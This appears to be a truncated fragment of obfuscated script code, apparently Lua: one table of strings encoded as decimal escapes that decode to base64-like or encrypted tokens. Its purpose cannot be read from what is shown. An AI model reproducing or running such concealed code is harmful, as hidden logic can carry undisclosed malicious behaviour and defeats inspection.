 y={"\083\048\104\052\082\111\043\102\065\056\069\086\111\076\078\100\113\103\061\061";"\076\069\109\099\078\109\115\049";"\069\102\071\090\098\108\051\076","\068\069\112\050";"\079\087\083\053\119\069\119\117\071\108\104\102\083\107\048\081\077\080\106\069","\102\055\049\115\067\079\043\081\049\048\085\086\050\101\070\122\053\098\103\119\078\081\061\061","\105\078\097\061","\052\119\072\090\120\054\117\049\099\110\069\090","\047\103\071\051\054\105\076\048\048\070\103\087\115\057\086\070\112\080\080\077\105\043\061\061";"\120\117\075\097\071\066\102\078\073\098\056\085\113\086\107\106\071\081\061\061","\068\074\072\090\108\086\072\110\068\082\047\106\111\066\072\057","\048\056\120\103\054\089\072\048\115\050\084\061","\065\048\115\068\114\122\101\122\068\122\054\109\052\116\111\043";"\120\053\076\121\049\082\101\081\071\084\079\114\099\071\070\049\117\110\050\107","\055\089\106\104\119\086\114\117\117\109\119\086\087\098\110\107\074\043\061\061";"\089\115\104\112\099\080\107\101\066\050\098\081\115\116\106\080\101\118\047\099";"\082\105\079\085\088\116\054\088\075\078\099\110\083\105\066\090";"\065\056\072\112\114\088\051\075\086\072\097\072";"\057\071\088\118\107\051\049\061","\043\052\080\074\047\119\074\110\077\111\090\112\048\097\090\102\049\078\120\110\105\120\049\070\115\102\111\047\104\055\076\083\069\086\110\105\110\106\082\112\056\100\055\100\068\102\077\051\089\110\073\085\076\043\084\109\047\108\103\054\122\070\057\054\070\119\111\088\070\049\117\109\057\121\086\111\122\076\080\121\052\104\043\105","\052\057\053\102\073\049\120\115\066\119\049\080\055\087\084\050\052\104\090\076","\068\080\074\075\066\081\052\090\111\084\120\118\081\054\055\113\068\118\106\111\047\081\061\061";"\056\056\086\050\087\048\051\089\121\103\061\061","\102\081\077\111\070\104\108\103\050\108\049\061";"\105\087\103\106\101\114\074\088\051\099\107\067";"\102\115\073\081\108\052\110\102\102\056\053\118\090\047\043\061","\120\074\100\088\103\115\069\090\054\119\067\061";"\103\088\108\103\101\071\048\047\068\074\056\065\075\103\061\061","\077\122\053\109\053\086\098\086\086\104\068\070";"\088\117\098\106\109\097\117\077\052\080\051\075","\122\089\084\080\121\077\099\117\077\043\061\061","\065\118\107\098\104\066\072\050\054\099\118\102\099\114\052\066\073\082\076\061";"\106\090\055\122\071\102\082\054\117\100\043\065\086\080\089\081","\100\047\122\113\082\043\054\081\084\121\077\114\110\117\086\048","\071\050\077\119\067\070\083\090\076\114\075\057\090\109\043\078\089\119\061\061";"\104\116\049\112\085\085\085\115\077\121\077\069\105\103\099\114\043\071\048\049","\107\051\118\099\114\050\057\097\076\107\056\065\089\078\077\118\076\114\106\067\070\056\112\116";"\102\111\100\097\100\072\067\069\081\043\048\053";"\099\119\102\049\053\103\088\098\066\090\111\100","\104\117\075\107\121\082\052\097\108\098\118\100\121\103\061\061";"\120\055\080\114\121\111\099\118\111\051\075\079\067\088\051\087","\100\105\097\119\102\100\087\051\076\084\099\061","\097\104\069\111\051\081\061\061";"\081\108\115\073\056\050\103\087\068\068\082\085\107\103\061\061","\052\117\118\047\071\087\117\079\114\104\081\061";"\100\085\082\118\104\086\078\105\080\081\053\107","\043\074\047\118\113\105\111\118\065\117\075\050\121\066\055\118";"\072\074\048\055","\070\051\055\111","","\121\089\080\065\065\056\113\117\078\100\067\061","\079\080\112\082\072\103\061\061","\076\076\071\069\055\050\122\065\071\101\098\119";"\087\097\087\068\086\120\073\115\106\087\076\073\067\057\067\107\120\088\088\118\090\103\061\061";"\052\108\109\119\100\119\050\079\054\054\101\054\075\052\103\101\089\083\053\105";"\071\054\056\079\089\117\072\100\113\066\099\061","\086\056\052\101\119\080\067\088\089\050\090\061","\097\075\067\061";"\121\074\052\053\113\081\061\061","\069\084\048\087\117\069\048\076\106\108\111\052\053\090\097\066\065\098\069\056\049\079\088\090\056\112\113\056\043\119\061\061";"\047\069\065\107\077\074\119\102\055\073\110\086","\073\084\075\054\053\114\090\061";"\108\098\065\102\104\074\121\118";"\043\097\079\082\116\117\072\068\118\076\081\101\099\067\103\061","\109\119\061\061";"\112\078\119\061","\088\121\121\048\111\119\061\061","\111\082\052\070\089\057\118\073\068\066\109\114\113\053\072\055\089\050\113\061";"\105\111\121\055\122\068\089\052\074\043\112\103";"\077\077\053\050\105\054\087\073\072\106\081\113\085\067\056\081","\068\078\068\120\057\086\114\079\083\070\106\119\104\113\056\088","\066\066\057\086\115\086\108\099\072\078\122\115\068\079\082\088\106\119\061\061","\113\066\075\100\113\066\072\097";"\078\107\076\115";"\104\098\119\066\071\079\077\048\051\098\099\057\079\100\047\115\099\097\099\056\090\054\075\101","\121\098\055\051\104\074\076\061";"\108\115\067\086\075\119\072\122\078\119\061\061","\065\071\072\088\078\100\084\084\088\054\043\116","\104\088\049\061";"\104\054\072\097\068\119\061\061","\098\120\088\048\048\117\103\117\104\068\121\066\097\055\098\085\086\101\122\118\082\119\061\061","\110\065\050\122\079\076\084\089\107\055\099\061","\090\085\119\053\085\067\105\047\111\071\083\122\106\075\104\051\052\080\086\043\084\103\061\061","\047\055\099\106\101\103\102\107\056\115\122\082\110\056\086\122\089\100\077\070";"\077\081\061\061","\114\070\083\100\083\081\112\053\098\085\100\103","\055\055\089\102\053\098\056\086\090\115\103\098\055\119\061\061","\097\054\113\071\076\115\067\105\120\119\104\084\051\054\111\119\117\069\082\076\122\089\109\097","\116\099\119\100\090\050\108\053\102\078\105\088","\065\087\053\075\101\116\121\054";"\116\120\075\116\053\106\122\082\068\056\057\097\047\100\051\047\114\082\099\051\050\119\061\061";"\119\121\086\077\111\081\105\108\072\103\081\061","\052\119\061\061","\070\070\107\083\116\079\089\066\051\049\122\076\086\107\069\065";"\076\113\098\049\117\075\104\048\085\107\107\090\102\074\086\118","\115\085\065\113\088\084\057\054\120\107\055\073","\088\120\068\113\088\056\111\122\116\070\099\061";"\065\049\077\104\049\047\